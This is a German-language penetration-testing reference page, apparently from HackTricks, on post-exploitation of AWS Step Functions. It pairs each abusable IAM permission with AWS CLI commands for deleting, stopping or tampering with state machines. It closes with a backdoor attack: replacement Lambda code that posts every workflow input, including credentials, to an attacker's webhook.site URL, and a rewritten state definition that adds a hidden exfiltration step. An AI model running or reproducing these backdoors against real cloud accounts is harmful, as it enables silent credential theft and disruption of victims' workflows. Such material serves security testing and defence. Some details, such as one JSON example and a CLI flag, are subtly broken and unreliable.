 # AWS - Step Functions Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Step Functions

Für weitere Informationen zu diesem AWS-Dienst, siehe:

{{#ref}}
../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### `states:RevealSecrets`

Diese Berechtigung ermöglicht es, **geheime Daten innerhalb einer Ausführung offenzulegen**. Dazu muss das Inspektionslevel auf TRACE und der Parameter revealSecrets auf true gesetzt werden.

<figure><img src="../../../images/image (348).png" alt=""><figcaption></figcaption></figure>

### `states:DeleteStateMachine`, `states:DeleteStateMachineVersion`, `states:DeleteStateMachineAlias`

Ein Angreifer mit diesen Berechtigungen könnte in der Lage sein, Zustandsmaschinen, deren Versionen und Aliase dauerhaft zu löschen. Dies kann kritische Arbeitsabläufe stören, zu Datenverlust führen und erhebliche Zeit für die Wiederherstellung und Wiederherstellung der betroffenen Zustandsmaschinen erfordern. Darüber hinaus würde es einem Angreifer ermöglichen, die verwendeten Spuren zu verwischen, forensische Untersuchungen zu stören und möglicherweise den Betrieb zu lähmen, indem wesentliche Automatisierungsprozesse und Zustandskonfigurationen entfernt werden.

> [!NOTE]
>
> - Wenn Sie eine Zustandsmaschine löschen, löschen Sie auch alle zugehörigen Versionen und Aliase.
> - Wenn Sie einen Alias einer Zustandsmaschine löschen, löschen Sie nicht die Versionen der Zustandsmaschine, die auf diesen Alias verweisen.
> - Es ist nicht möglich, eine Version einer Zustandsmaschine zu löschen, die derzeit von einem oder mehreren Aliasen referenziert wird.
```bash
# Delete state machine
aws stepfunctions delete-state-machine --state-machine-arn <value>
# Delete state machine version
aws stepfunctions delete-state-machine-version --state-machine-version-arn <value>
# Delete state machine alias
aws stepfunctions delete-state-machine-alias --state-machine-alias-arn <value>
```
- **Potenzielle Auswirkungen**: Störung kritischer Arbeitsabläufe, Datenverlust und Betriebsunterbrechungen.

### `states:UpdateMapRun`

Ein Angreifer mit dieser Berechtigung könnte die Konfiguration für das Scheitern von Map Runs und die parallele Einstellung manipulieren, indem er die maximale Anzahl der zulässigen Ausführungen von untergeordneten Arbeitsabläufen erhöhen oder verringern kann, was sich direkt auf die Leistung des Dienstes auswirkt. Darüber hinaus könnte ein Angreifer den tolerierten Prozentsatz und die Anzahl der Fehler manipulieren und diesen Wert auf 0 senken, sodass jedes Mal, wenn ein Element fehlschlägt, der gesamte Map Run fehlschlägt, was sich direkt auf die Ausführung der Zustandsmaschine auswirkt und potenziell kritische Arbeitsabläufe stört.
```bash
aws stepfunctions update-map-run --map-run-arn <value> [--max-concurrency <value>] [--tolerated-failure-percentage <value>] [--tolerated-failure-count <value>]
```
- **Potenzielle Auswirkungen**: Leistungsabfall und Störung kritischer Arbeitsabläufe.

### `states:StopExecution`

Ein Angreifer mit dieser Berechtigung könnte in der Lage sein, die Ausführung einer beliebigen Zustandsmaschine zu stoppen, was laufende Arbeitsabläufe und Prozesse stören würde. Dies könnte zu unvollständigen Transaktionen, gestoppten Geschäftsabläufen und potenzieller Datenkorruption führen.

> [!WARNING]
> Diese Aktion wird von **express state machines** nicht unterstützt.
```bash
aws stepfunctions stop-execution --execution-arn <value> [--error <value>] [--cause <value>]
```
- **Potenzielle Auswirkungen**: Störung laufender Arbeitsabläufe, betriebliche Ausfallzeiten und potenzielle Datenkorruption.

### `states:TagResource`, `states:UntagResource`

Ein Angreifer könnte Tags von Step Functions-Ressourcen hinzufügen, ändern oder entfernen, wodurch die Kostenallokation, die Ressourcenverfolgung und die Zugriffskontrollrichtlinien Ihrer Organisation, die auf Tags basieren, gestört werden.
```bash
aws stepfunctions tag-resource --resource-arn <value> --tags Key=<key>,Value=<value>
aws stepfunctions untag-resource --resource-arn <value> --tag-keys <key>
```
**Potenzielle Auswirkungen**: Störung der Kostenallokation, der Ressourcenverfolgung und der tagbasierten Zugriffskontrollrichtlinien.

---

### `states:UpdateStateMachine`, `lambda:UpdateFunctionCode`

Ein Angreifer, der einen Benutzer oder eine Rolle mit den folgenden Berechtigungen kompromittiert:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowUpdateStateMachine",
"Effect": "Allow",
"Action": "states:UpdateStateMachine",
"Resource": "*"
},
{
"Sid": "AllowUpdateFunctionCode",
"Effect": "Allow",
"Action": "lambda:UpdateFunctionCode",
"Resource": "*"
}
]
}
```
...kann einen **hochwirksamen und stealthy Post-Exploitation-Angriff** durchführen, indem er Lambda-Backdooring mit der Manipulation der Step Function-Logik kombiniert.

Dieses Szenario geht davon aus, dass das Opfer **AWS Step Functions verwendet, um Workflows zu orchestrieren, die sensible Eingaben verarbeiten**, wie z.B. Anmeldeinformationen, Tokens oder PII.

Beispiel für einen Opferaufruf:
```bash
aws stepfunctions start-execution \
--state-machine-arn arn:aws:states:us-east-1:<victim-account-id>:stateMachine:LegitStateMachine \
--input '{"email": "victim@example.com", "password": "hunter2"}' --profile victim
```
Wenn die Step Function so konfiguriert ist, dass sie eine Lambda wie `LegitBusinessLogic` aufruft, kann der Angreifer mit **zwei heimlichen Angriffsvarianten** fortfahren:

---

####  Aktualisierte die Lambda-Funktion

Der Angreifer ändert den Code der bereits von der Step Function verwendeten Lambda-Funktion (`LegitBusinessLogic`), um Eingabedaten heimlich zu exfiltrieren.
```python
# send_to_attacker.py
import requests

def lambda_handler(event, context):
requests.post("https://webhook.site/<attacker-id>/exfil", json=event)
return {"status": "exfiltrated"}
```

```bash
zip function.zip send_to_attacker.py

aws lambda update-function-code \
--function-name LegitBusinessLogic \
--zip-file fileb://function.zip -profile attacker
```
---

#### Fügen Sie einen bösartigen Zustand zur Step Function hinzu

Alternativ kann der Angreifer einen **exfiltration state** zu Beginn des Workflows injizieren, indem er die Definition der Step Function aktualisiert.
```malicious_state_definition.json
{
"Comment": "Backdoored for Exfiltration",
"StartAt": "OriginalState",
"States": {
"OriginalState": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:<victim-id>:function:LegitBusinessLogic",
"End": true
}
}
}

```

```bash
aws stepfunctions update-state-machine \
--state-machine-arn arn:aws:states:us-east-1:<victim-id>:stateMachine:LegitStateMachine \
--definition file://malicious_state_definition.json --profile attacker
```
Der Angreifer kann noch stealthier die Zustandsdefinition auf etwas wie das hier aktualisieren:
{
"Comment": "Backdoored for Exfiltration",
"StartAt": "ExfiltrateSecrets",
"States": {
"ExfiltrateSecrets": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:victim-id:function:SendToAttacker",
"InputPath": "$",
"ResultPath": "$.exfil",
"Next": "OriginalState"
},
"OriginalState": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:victim-id:function:LegitBusinessLogic",
"End": true
}
}
}
wo das Opfer den Unterschied nicht bemerkt

---

### Opfer Setup (Kontext für den Exploit)

- Eine Step Function (`LegitStateMachine`) wird verwendet, um sensible Benutzereingaben zu verarbeiten.
- Sie ruft eine oder mehrere Lambda-Funktionen wie `LegitBusinessLogic` auf.

---

**Potenzielle Auswirkungen**:
- Stille Exfiltration sensibler Daten, einschließlich Geheimnisse, Anmeldeinformationen, API-Schlüssel und PII.
- Keine sichtbaren Fehler oder Ausfälle bei der Ausführung des Workflows.
- Schwer zu erkennen, ohne den Lambda-Code oder Ausführungsspuren zu überprüfen.
- Ermöglicht langfristige Persistenz, wenn die Hintertür im Code oder in der ASL-Logik bleibt.


{{#include ../../../banners/hacktricks-training.md}}
